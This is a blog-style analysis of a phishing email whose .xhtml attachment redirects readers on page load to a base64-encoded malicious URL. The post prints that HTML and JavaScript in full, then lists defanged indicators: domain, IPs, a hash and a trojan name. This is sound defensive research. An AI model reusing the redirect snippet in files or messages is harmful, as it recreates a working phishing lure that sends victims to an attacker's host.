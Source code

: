 ```yaml
---
layout: post
title:  "Phishing Email 20201019-001"
date:   2022-04-26 20:52:47 -0400
categories: phishing analysis
---
```

A while back I received a curious email and immediately thought that it was a good candidate for a little bit of analysis. It had a nonsensical subject line and what appeared to be a Russian filename. The body of the email was empty. And for all of that, it somehow managed to miss my GMail's spam filter and land directly in my inbox flagged as Important. However, I had just started a new job and was a little swamped in learning some new tools. So, I saved a copy of the email and its attachment with the intent on coming back to dig into it at a later date.

That later date turned out to be six months in the future.

But, stale as the suspicious email was, I decided to crack it open and find out what it was all about anyway. It was just too enticing to leave unexplored forever. I'm glad I did! Even though the email was old enough for its original attack infrastructure to have evaporated, it still held some interesting little insights into the email's original purpose.

### Primary Analysis

When approaching a potentially suspicious email, I like to start with the email itself and determine any indicators or behaviors that can be determined without touching any external systems.

I'll start with the email's details:

```
To: [redacted]
From: Katrice Dorrell <katricedorrell[@]gmail.com>
Subject Z XJ O ZX
Attachment: Играть E D Y .xhtml
Body: [EMPTY]
```

Looking first at the recipients (redacted in this report) reveals some commonalities, but not much. The email included 11 recipients all in the TO line all of which were GMail addresses. That's pretty much where all of the commonalities ended. A few quick searches in Have I Been Pwned revealed that two of the accounts appeared in the Exploit.in collection and two were in Collection #1. It's possible that all of the addresses appeared in a common undisclosed breach, but who's to say? At any rate, there's not a whole lot that can be gleaned from the targets.

Turning to the sender, it's another GMail account, which makes most of the other email header information not super useful for attribution. Searching for the sender email in google didn't turn up any information and neither did searching for Katrice Dorrell in a wide range of social media sites. It's likely, then, that this email address was genned up for this particular phishing operation. Suffice to say, it's probably another dead end.

As for the email's subject, it seems fairly random to me, but just to be sure I ran it through some search engines to see if anything came up. The only thing of interest was that Google auto-corrected ZXJOZX to XBox.

Since the email's body is empty, the only primary place to analyze is the attachment.

Luckily, the file is a simple HTML file, meaning I can safely open it up in a plain text editor with no need to muck around with more advanced forensic tools.

First, I'm curious if the file name means anything interesting. According to online translators, "Играть" is Russian for "Play." Maybe that's related to the potential XBox connection above?

Looking inside the file, I found a very short HTML document:

{% highlight html %}
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<body onpageshow="document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));">
{% endhighlight %}

The header is pretty standard boilerplate, but the JavaScript in the document body immediately caught my attention. It starts with an `onpageshow` assignment, which is a way to execute a Javascript function when a pageload event happens on the document. This in turn triggers a function call:

{% highlight javascript %}
document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));
{% endhighlight %}

The `location.replace()` Javascript function replaces the content of the HTML document with the document located at another URL. In this case, the argument is another function, `window.atob()`, which decodes a Base64 string into standard text.

Decoding the argument to that function yields the following URL:
http[://]keitaro0001[.]pro/DcLtdS?1170214888777245

Now we're getting phishy! I was pretty convinced at this point that I had a malicious payload on my hands. But, since the file didn't contain anything executable other than the above Javascript, any more intelligence would have to be gathered from outside sources.

## Secondary Research

Moving on to secondary sources, I turned to urlscan.io to see if I could get any information about the URL itself. Urlscan is a tool that will scan a web page and provide information such as its IP address, screenshots of the rendered page, and other stats about the site's behavior.

The initial scan didn't turn up a whole lot of information. As I mentioned above, this is a rather old email in the world of phishing campaigns, and it's unlikely that much of the original attack infrastructure was still standing. At the time that I scanned it, the domain resolved to a U.S. based IP address, and the URL was returning a Namecheap splash page indicating that the domain had been suspended due to issues with its whois verification. For those unfamiliar, whois data is information about the person or organization that registered a domain name. In this case, the whois verification issue reinforces the hypothesis that this was at some point a malicious site.

The only other interesting piece of information is that urlscan.io showed that this particular domain had appeared in 31 scans. I clearly wasn't the only person interested in it!

My scan was the 32nd one performed for the domain keitaro0001[.]pro, which provided another avenue to explore. Reviewing those scans I found that the majority of them had been performed six months ago, right around the time that I received the email. Which means it was probably a wide cast but short lived campaign. This is right in line with what I would expect, though. Among the previous scans, there were 6 different IP addresses, most of which were located in Russia and owned by various Russian hosting services. Using Shodan, which performs periodic scans of public IP addresses across the Internet to determine what services they are currently running, showed that only one of the IP addresses in question was currently running a Web server.

While the attach infrastruture was no longer around for analysis, the historical data from Urlscan.io does tell a story. The domain in question appears to have bounced between several Russian-based IP addresses belonging to several different hosting providers over a short period of time before the domain itself was taken offline by the registrar, possibly due to evidence of malicious activity.

There's one final place I went to in my investigation into this email. To see if the domain had any association with any known malware, I did a search in VirusTotal. Sure enough, four of VirusTotal's malware detection engines reported the domain as suspicious. Additionally, VirusTotal observed a file identified as a generic Trojan agent communicating with the domain. While there isn't much to indicate which Trojan variant this was, it's likely that the program would have attempted to perform some sort of exploitation and deploy additional malware if I had actually loaded it onto my computer.

## Conclusion

Despite the trail being cold, there is still very clear evidence that this email contained a malicious payload that could have potentially severely compromised my computer. Given how unusual the email was, I'm not sure how many people would have fallen for it, but then again phishing is a numbers game. If even just a fraction of a percent of targets download and open the malicious attachment, that can still translate to hundreds of thousands of machines if the distribution is wide enough.

## Primary Artifacts

### Email Addresses
```
katricedorrell[@]gmail.com
```

### File Names
```
Играть E D Y .xhtml
```

### URLs
```
http[://]keitaro0001[.]pro/DcLtdS?1170214888777245
```

### Domains
```
keitaro0001[.]pro/
```

## Secondary Artifacts

### IP Addresses
```
31[.]41[.]46[.]64
194[.]48[.]155[.]110
185[.]185[.]68[.]131
185[.]251[.]91[.]65
178[.]208[.]75[.]4
46[.]8[.]158[.]193
```

### Malware Signatures
```
TROJAN.AGENT.FOHY
```

### File Names
```
ПРИВАТНО OPLF181.aipahHZTD .rar
```

### Hashes
```
de6da06bd31ff942041de115d7134b92e6bd1fbca99412548a264e316b19cc84 (SHA256)
```
